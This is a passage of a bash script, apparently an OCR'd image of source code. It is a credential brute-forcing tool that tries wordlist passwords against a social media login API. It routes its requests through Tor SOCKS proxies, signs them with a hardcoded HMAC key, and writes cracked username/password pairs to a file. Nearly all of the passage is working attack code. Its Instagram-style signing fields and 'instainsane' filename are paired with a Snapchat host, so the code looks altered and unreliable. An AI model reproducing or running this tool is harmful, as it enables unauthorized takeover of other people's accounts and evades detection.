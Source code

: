 let counter++
printf "\e[1;77mTrying pass (%s/%s)\e[0m: \"%s\"\n" $countpass $count_pass $pass

{(trap '' SIGINT && var=$(curl --socks5-hostname 127.0.0.1:9051 -d "ig_sig_key_version=4&signed_body=$hmac.$data" -s --user-agent 'User-Agent: "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"' -w "\n%{http_code}\n" -H "$header" "https://i.Snapchat.com/api/v1/accounts/login/" | grep -o "logged_in_user\|challenge\|many tries\|Please wait" | uniq ); if [[ $var == "challenge" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n [*] Challenge required\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instainsane ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instainsane \n\e[0m"; rm -rf nottested.lst; kill -1 $$ > /dev/null 2>&1  ; elif [[ $var == "logged_in_user" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instainsane ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instainsane \n\e[0m"; rm -rf nottested.lst; kill -1 $$  > /dev/null 2>&1 ; elif [[ $var == "Please wait" ]]; then echo $pass >> nottested.lst ; elif [[ $var == "" ]]; then echo $pass >> nottested.lst ; fi; ) } & done; pid1=$! ; #;wait $!;
 
let startline+=20
let endline+=20

done

}


bf2() {

while [ $counter2 -lt $turn ]; do
count_pass=$(wc -l $wl_pass | cut -d " " -f1)
IFS=$'\n'
for pass in $(sed -n ''$((startline+sumstart))','$endline'p' $wl_pass); do
header='Connection: "close", "Accept": "*/*", "Content-type": "application/x-www-form-urlencoded; charset=UTF-8", "Cookie2": "$Version=1" "Accept-Language": "en-US", "User-Agent": "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'

data='{"phone_id":"'$phone'", "_csrftoken":"'$var2'", "username":"'$user'", "guid":"'$guid'", "device_id":"'$device'", "password":"'$pass'", "login_attempt_count":"0"}'
ig_sig="4f8732eb9ba7d1c8e8897a75d6474d4eb3f5279137431b2aafb71fafe2abe178"
IFS=$'\n'
countpass=$(grep -n -x "$pass" "$wl_pass" | cut -d ":" -f1)
hmac=$(echo -n "$data" | openssl dgst -sha256 -hmac "${ig_sig}" | cut -d " " -f2)
useragent='User-Agent: "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'

let counter2++

printf "\e[1;77mTrying pass (%s/%s)\e[0m: \"%s\"\n" $countpass $count_pass $pass

{(trap '' SIGINT && var=$(curl --socks5-hostname 127.0.0.1:9052 -d "ig_sig_key_version=4&signed_body=$hmac.$data" -s --user-agent 'User-Agent: "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"' -w "\n%{http_code}\n" -H "$header" "https://i.Snapchat.com/api/v1/accounts/login/" | grep -o "logged_in_user\|challenge\|many tries\|Please wait" | uniq ); if [[ $var == "challenge" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n [*] Challenge required\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instainsane ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instainsane \n\e[0m"; rm -rf nottested.lst ; kill -1 $$ > /dev/null 2>&1 ; elif [[ $var == "logged_in_user" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instainsane ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instainsane \n\e[0m"; rm -rf nottested.lst; kill -1 $$  > /dev/null 2>&1 ; elif [[ $var == "Please wait" ]]; then echo $pass >> nottested.lst ; elif [[ $var == "" ]]; then echo $pass >> nottested.lst ; fi; ) } & done; pid2=$! ; # wait $!;
